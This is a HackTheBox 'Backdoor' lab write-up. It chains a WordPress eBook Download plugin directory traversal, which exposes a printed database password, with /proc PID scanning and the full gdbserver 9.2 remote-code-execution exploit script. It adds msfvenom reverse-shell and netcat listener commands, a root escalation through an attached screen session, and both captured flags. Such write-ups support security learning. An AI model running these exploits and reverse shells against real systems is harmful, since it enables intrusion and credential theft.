



## Recon
### nmap Result 

```
# nmap -sS -A -sC -sV -p- --min-rate 5000 10.10.11.125
```

- port 22 ssh service 
- port 80 http service
- port 1337 unknow ....waste?


### Browse to web

> When using browser to 

```
10.10.11.125
```

> it will suddenly direct to
 
 ```
 backdoor.htb
 ``` 
 > but since the DNS doesn't know who is it, 
 >it will response error
> so we need to add the following to hosts list

```
backdoor.htb
``` 


> I can know the blog site based on WordPress.
### dirb result

```
# gobuster dir -u backdoor.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
#### Result 

1. /wp-content
2. /wp-includes
3. /wp-admin


### Browse the path

>  Browse to /wp-admin will direct to /wp-login
>  But I didn't find any credential from existing information, so I think it's impossible to use login.


> Browse to /wp-includes/, there are many wordpress source file, but I can't check the content by clicking the file.( all of them is empty file in that location)
> I think the reason for that is the actual location not in here.



> Browse to /wp-content/, it should include a plugin directory (/wp-content/plugins), I just check it and found '**ebookdownload**' plugin. 


## Exploitation

### WordPress Vulnerability 

    since I also can't find the version, 
    so even I can find the vulnerability in here,
    It's hard to find an appropriate cve to exploit.
    So, let's find other way first...
    
- [WordPress Vulnerability Database](https://patchstack.com/database/vulnerability/wordpress)


### Plugin Vulnerability

    I find a Directory Traversal Vulnerability for ebookdownload.

- [WordPress Plugin eBook Download 1.1 - Directory Traversal](https://www.exploit-db.com/exploits/39575)
#### Directory Traversal for ebook Download

    With following description, 
    I found that the ebookdownload has a **filedownload php file**, 
    and it has a method can download the file.
    but the method doesn't do appropritate validation.


> So, let me use this vulnerability to read the file.
> Payload

```
# /wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=<file we want to read>
```

1. Read /etc/passwd

```
# /wp-content/plugins/ebook-download/filedownloads?ebookdownloadurl=../../../../../../etc/passwd
```


2. Read /wp-config.php

```
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../wp-includes/wp-config.php
```


> DB_User : wordpressuser
> DB_PASSWORD : MQYBJSaD#DxG6qbm


### LFI to RCE 

> But those file seems doesn't have too many help for now.
> So let find out other things, like how to cause RCE from Directory Traversal  

- [Directory Traversal, File Inclusion, and The Proc File System](https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/)

> An attacker can use this to read the proc file system.  This can provide some interesting insights into what’s running on the server.
> A few of the more interesting proc entries include:

| Directory                       | Description                                                                                                                                                                                        |
| ------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| /proc/sched_debug               | This is usually enabled on newer systems, such as RHEL 6.  It provides information as to what process is running on which cpu.  This can be handy to get a list of processes and their PID number. |
| /proc/mounts                    | Provides a list of mounted file systems.  Can be used to determine where other interesting files might be located                                                                                  |
| /proc/net/arp                   | Shows the ARP table.  This is one way to find out IP addresses for other internal servers.                                                                                                         |
| /proc/net/route                 | Shows the routing table information.                                                                                                                                                               |
| /proc/net/tcp and /proc/net/udp | Provides a list of active connections.  Can be used to determine what ports are listening on the server                                                                                            |
| /proc/net/fib_trie              | This is used for route caching.  This can also be used to determine local IPs, as well as gain a better understanding of the target’s networking structure                                         |
| /proc/version                   | Shows the kernel version.  This can be used to help determine the OS running and the last time it’s been fully updated.                                                                            |

> Each process also has its own set of attributes.  If you have the PID number and access to that process, then you can obtain some useful information about it, such as its environmental variables and any command line options that were run.  Sometimes these include passwords.  Linux also has a special proc directory called self which can be used to query information about the current process without having to know it’s PID.  In the following examples you can replace PID with either self or the PID of the process you wish to examine.

| Directory           | Description                                                                                                                                                                           |     |
| ------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --- |
| /proc/[PID]/cmdline | Lists everything that was used to invoke the process. This sometimes contains useful paths to configuration files as well as usernames and passwords.                                 |     |
| /proc/[PID]/environ | Lists all the environment variables that were set when the process was invoked.  This also sometimes contains useful paths to configuration files as well as usernames and passwords. |     |
| /proc/[PID]/cwd     | Points to the current working directory of the process.  This may be useful if you don’t know the absolute path to a configuration file.                                              |     |
| /proc/[PID]/fd/[#]  | Provides access to the file descriptors being used. In some cases this can be used to read files that are opened by a process.                                                        |     |

> Combining directory traversal and file inclusion vulnerabilities with the proc file system ends up being a great way to gain access to information relating to the running processes on a Linux system.
> So, let's try the following payload in Burp Intrudter

```
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/$pid$/cmdline
```


> And I finally find the PID 843 which execute a gdbserver on port 1337
> This port number is that I can't know the service in the nmap result.

```
# /proc/843/cmdline/proc/843/cmdline/proc/843/cmdline/bin/sh-cwhile true;do su user -c "cd /home/user;gdbuser --once 0.0.0.0:1337 /bin/true;"; done<script>window.close()</script>
```
#### Other tool 

Besides burp intruder, there is a python code I found on website.

```pid_scan.py

import requests
import re

for x in range(0, 1000):
    url = "http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/" + str(x) + "/cmdline"
    r = requests.get(url)
    response_size = len(r.content)
    if (response_size > 82):
        print("URL:" + r.url)
        print(response_size)
        print("Length:" + str(response_size) + "\n")
        content = r.content
        print( re.split("/cmdline", str(content) ) )


        print("----------------------------------------")

```


- [pid_scan code from write_up1](https://vato.cc/hackthebox-writeup-backdoor/)
### Exploit by gdbserver

> First, find the cve for gdbserver


- [Exploit DB - GNU gdbServer 9.2](exploit-db.com/exploits/50539)
- Payload
```
# Exploit Title: GNU gdbserver 9.2 - Remote Command Execution (RCE)
# Date: 2021-11-21
# Exploit Author: Roberto Gesteira Miñarro (7Rocky)
# Vendor Homepage: https://www.gnu.org/software/gdb/
# Software Link: https://www.gnu.org/software/gdb/download/
# Version: GNU gdbserver (Ubuntu 9.2-0ubuntu1~20.04) 9.2
# Tested on: Ubuntu Linux (gdbserver debugging x64 and x86 binaries)

#!/usr/bin/env python3


import binascii
import socket
import struct
import sys

help = f'''
Usage: python3 {sys.argv[0]} <gdbserver-ip:port> <path-to-shellcode>

Example:
- Victim's gdbserver   ->  10.10.10.200:1337
- Attacker's listener  ->  10.10.10.100:4444

1. Generate shellcode with msfvenom:
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.100 LPORT=4444 PrependFork=true -o rev.bin

2. Listen with Netcat:
$ nc -nlvp 4444

3. Run the exploit:
$ python3 {sys.argv[0]} 10.10.10.200:1337 rev.bin
'''


def checksum(s: str) -> str:
    res = sum(map(ord, s)) % 256
    return f'{res:2x}'


def ack(sock):
    sock.send(b'+')


def send(sock, s: str) -> str:
    sock.send(f'${s}#{checksum(s)}'.encode())
    res = sock.recv(1024)
    ack(sock)
    return res.decode()


def exploit(sock, payload: str):
    send(sock, 'qSupported:multiprocess+;qRelocInsn+;qvCont+;')
    send(sock, '!')

    try:
        res = send(sock, 'vCont;s')
        data = res.split(';')[2]
        arch, pc = data.split(':')
    except Exception:
        print('[!] ERROR: Unexpected response. Try again later')
        exit(1)

    if arch == '10':
        print('[+] Found x64 arch')
        pc = binascii.unhexlify(pc[:pc.index('0*')])
        pc += b'\0' * (8 - len(pc))
        addr = hex(struct.unpack('<Q', pc)[0])[2:]
        addr = '0' * (16 - len(addr)) + addr
    elif arch == '08':
        print('[+] Found x86 arch')
        pc = binascii.unhexlify(pc)
        pc += b'\0' * (4 - len(pc))
        addr = hex(struct.unpack('<I', pc)[0])[2:]
        addr = '0' * (8 - len(addr)) + addr

    hex_length = hex(len(payload))[2:]

    print('[+] Sending payload')
    send(sock, f'M{addr},{hex_length}:{payload}')
    send(sock, 'vCont;c')


def main():
    if len(sys.argv) < 3:
        print(help)
        exit(1)

    ip, port = sys.argv[1].split(':')
    file = sys.argv[2]

    try:
        with open(file, 'rb') as f:
            payload = f.read().hex()
    except FileNotFoundError:
        print(f'[!] ERROR: File {file} not found')
        exit(1)

    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((ip, int(port)))
        print('[+] Connected to target. Preparing exploit')
        exploit(sock, payload)
        print('[*] Pwned!! Check your listener')


if __name__ == '__main__':
    main()
            
```

>In this payload, there is an example about how to do this attack

```
Example:
- Victim's gdbserver   ->  10.10.10.200:1337
- Attacker's listener  ->  10.10.10.100:4444

1. Generate shellcode with msfvenom:
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.100 LPORT=4444 PrependFork=true -o rev.bin

2. Listen with Netcat:
$ nc -nlvp 4444

3. Run the exploit:
$ python3 {sys.argv[0]} 10.10.10.200:1337 rev.bin
```

> So, create the shell code first

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=<attack ip address> LPORT=4444 PrependFork=true -o /<path>/rev.bin
```


> Execute it...
```
# python3 gdbserver_rce.py <victim ip> <reverse shell code>
```




> Using nc to listen on port 4444
> After the reverse shell connect, use python to upgrade the reverse shell to fully interactive TTY

```
# python3 -c 'import pty; pty.spawn("/bin/bash")'
```


### Get user flag

```
# pwd
# ls
# cat user.txt
```


```
# ffd715967470d01507bd417ada815337
```

## Privilege Escalation(Post Exploitation) 

> Use following tool to find the local privilege escalation

1. [Linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
    - [Linpeas Download Location](https://github.com/carlospolop/PEASS-ng/releases/tag/20220424)
2. [linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
3. [LinEnum](https://github.com/rebootuser/LinEnum)
#### SimpleHTTPServer

> Again, I need to create a simple http server on host
> Then let victim site can download some tool.

```
# python -m SimpleHTTPServer 
```
#### Information Gathering

> Linpeas Result


> Some cve we found 


> After I search, I tried the following 2 cve, but not success
1. CVE-2021-4034 : pkexec 本地提权漏洞利用解析(pwnkit)


    
```
    A local privilege escalation vulnerability was found on polkit's pkexec utility. The pkexec application is a setuid tool designed to allow unprivileged users to run commands as privileged users according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.
```
2. CVE-2017-5618 : screen to root
```
    GNU screen before 4.5.1 allows local users to modify arbitrary files and consequently gain root privileges by leveraging improper checking of logfile permissions.
```

> Besides above information, there are many process which the victim server running which we find from linpeas
> we focus on those process run by root
> here are a screen be execute, and we also know the scree has cve be detected above


> Now let's research more about 'screen' first

---
#### What's screen in Linux system 
```
screen 指令是一般 UNIX/Linux 使用者或管理者常會使用的終端機管理程式，它可以讓一個終端機當成好幾個來使用。

通常一個終端機（terminal 或 console）只能開啓一個互動式（interactive）的 shell 來使用，
而藉著 screen 的幫助，
使用者可以在一個終端機下，同時開啓多個互動式的 shell，
除了自己使用之外，還可以讓 session 分享給不同的使用者，
或是讓執行中的 session 暫時卸離（detach），隨後再重新連接（attach）即可繼續操作。

```

```
Screen is a full-screen window manager that multiplexes a physical terminal between several processes (typically interactive shells).

Each virtual terminal provides the functions of a DEC VT100 terminal

When screen is called, 
it creates a single window with a shell in it (or the specified command) and then gets out of your way so that you can use the program as you normally would.
Then, at any time, you can create new (full-screen) windows with other programs in them (including more shells), kill existing windows, view a list of windows, turn output logging on and off, copy-and-paste text between windows, view the scrollback history, switch between windows in whatever manner you wish, etc. 
All windows run their programs completely independent of each other.
Programs continue to run when their window is currently not visible and even when the whole screen session is detached from the user's terminal. When a program terminates, screen (per default) kills the window that contained it. 
```
```
-x
Attach to a not detached screen session. (Multi display mode).
```

- [Linux screen man page](https://linux.die.net/man/1/screen)

---
### Privilege Escalation

    According to above research,
    we know there is a screen which is executed by root, and it has been dettach.
    so we just need to attach it again.

>  If we just attach screen directly, it will error.


> Here are some solution 
- [Error: Screen - Please set a terminal type](https://nslu2-linux.yahoogroups.narkive.com/sgSspGkR/screen-please-set-a-terminal-type)


>I think the 'vt100' is a terminal name, so I also can change to 'xterm' and other teraminal


### Get root flag

```
# pwd
# ls 
# cat root.txt
```


> The root flag : ```# 0170133560c1744a07f7dda696be129a```
## Reference 

### Write-up

- [Write up 1](https://vato.cc/hackthebox-writeup-backdoor/)
- [Write up 2](https://zhuanlan.zhihu.com/p/437147174)
- [Write up Video 1](https://www.youtube.com/watch?v=4HK9t3urAHY)
### Information 

- [Linux screen man page](https://linux.die.net/man/1/screen)
- [WPScan Result](https://patchstack.com/database/vulnerability/wordpress)
- [Linux screen tutorial](https://blog.gtwang.org/linux/screen-command-examples-to-manage-linux-terminals/)
- [linux 进程参数文件 /proc/pid/cmdline 简介](https://blog.csdn.net/whatday/article/details/108897457)
- [GitHub: PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md#lfi-to-rce-via-procfd)
### Vulnerabilies

- [Exploit DB: GNU gdbserver 9.2 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/50539)
- [Exploit DB: WordPress Plugin eBook Download 1.1 - Directory Traversal](https://www.exploit-db.com/exploits/39575)

#### Not use in this time

##### CVE-2017-5618
- [Exploit DB: GNU Screen 4.5.0 - Local Privilege Escalation](https://www.exploit-db.com/exploits/41154)
- [Github: screen2root ](https://github.com/XiphosResearch/exploits/tree/master/screen2root)
- [Rapid7: Alpine Linux: CVE-2017-5618: Screen root exploit 4.5.0](https://www.rapid7.com/db/vulnerabilities/alpine-linux-cve-2017-5618/)
- [NVD: CVE-2017-5618](https://nvd.nist.gov/vuln/detail/CVE-2017-5618)

##### CVE-2021-4034
- [NVD: CVE-2021-4034](https://nvd.nist.gov/vuln/detail/CVE-2021-4034)
- [Analysis: CVE-2021-4034](https://www.iceswordlab.com/2022/02/10/CVE-2021-4034/)
- [Analysis: CVE-2021-4034 - 2](https://xz.aliyun.com/t/10905)
- [Analysis: CVE-2021-4034 - 3](https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt)
- [Analysis: CVE-2021-4034 - 4](https://iter01.com/659117.html)
- [Exploit DB: PolicyKit-1 0.105-31 - Privilege Escalation](https://www.exploit-db.com/exploits/50689)
- [Github: CVE-2021-4034 PoC](https://github.com/arthepsy/CVE-2021-4034)
- [Github: CVE-2021-4034 PoC_2](https://github.com/arthepsy/CVE-2021-4034/blob/main/cve-2021-4034-poc.c)
- [Github: CVE-2021-4034 PoC_3](https://github.com/ryaagard/CVE-2021-4034)
- [Github: CVE-2021-4034 PoC_4](https://github.com/berdav/CVE-2021-4034)
### Post Exploitation

- [Linux Post-Exploit Cheat Sheet](https://cyberlab.pacific.edu/resources/linux-post-exploit-cheat-sheet)
- [Pentesting Cheatsheet](https://hausec.com/pentesting-cheatsheet/)
### Other Information

- [wget download](https://www.pair.com/support/kb/paircloud-downloading-files-with-wget/)
- [wget download directory](https://stackoverflow.com/questions/273743/using-wget-to-recursively-fetch-a-directory-with-arbitrary-files-in-it)

###### tags: `HackTheBox` `linux`
